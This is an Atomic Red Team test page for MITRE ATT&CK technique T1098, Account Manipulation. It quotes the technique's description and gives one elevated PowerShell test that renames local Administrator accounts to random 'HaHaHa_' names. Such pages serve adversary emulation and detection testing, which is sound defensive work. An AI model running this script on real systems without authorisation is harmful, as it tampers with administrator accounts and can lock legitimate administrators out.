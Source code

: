 # T1098 - Account Manipulation

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1098)

<blockquote>Account manipulation may aid adversaries in maintaining access to credentials and certain permission levels within an environment. Manipulation could consist of modifying permissions, modifying credentials, adding or changing permission groups, modifying account settings, or modifying how authentication is performed. These actions could also include account activity designed to subvert security policies, such as performing iterative password updates to subvert password duration policies and preserve the life of compromised credentials. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.

### Exchange Email Account Takeover

The Add-MailboxPermission PowerShell cmdlet, available in on-premises Exchange and in the cloud-based service Office
365, adds permissions to a mailbox.(Citation: Microsoft - Add-MailboxPermission) This command can be run, given adequate
permissions, to further access granted to certain user accounts. This may be used in persistent threat incidents as well
as BEC (Business Email Compromise) incidents where an adversary can assign more access rights to the accounts they wish
to compromise. This may further enable use of additional techniques for gaining access to systems. For example,
compromised business accounts are often used to send messages to other accounts in the network of the target business
while creating inbox rules so the messages evade spam/phishing detection mechanisms.(Citation: Bienstock, D. - Defending
O365 - 2019)

### Azure AD

In Azure, an adversary can set a second password for Service Principals, facilitating persistence.(Citation: Blue Cloud
of Death)

### AWS

AWS policies allow trust between accounts by simply identifying the account name. It is then up to the trusted account
to only allow the correct roles to have access.(Citation: Summit Route Advanced AWS policy auditing)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Admin Account Manipulate](#atomic-test-1---admin-account-manipulate)

<br/>

## Atomic Test #1 - Admin Account Manipulate

Manipulate Admin Account Name

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```

<br/>
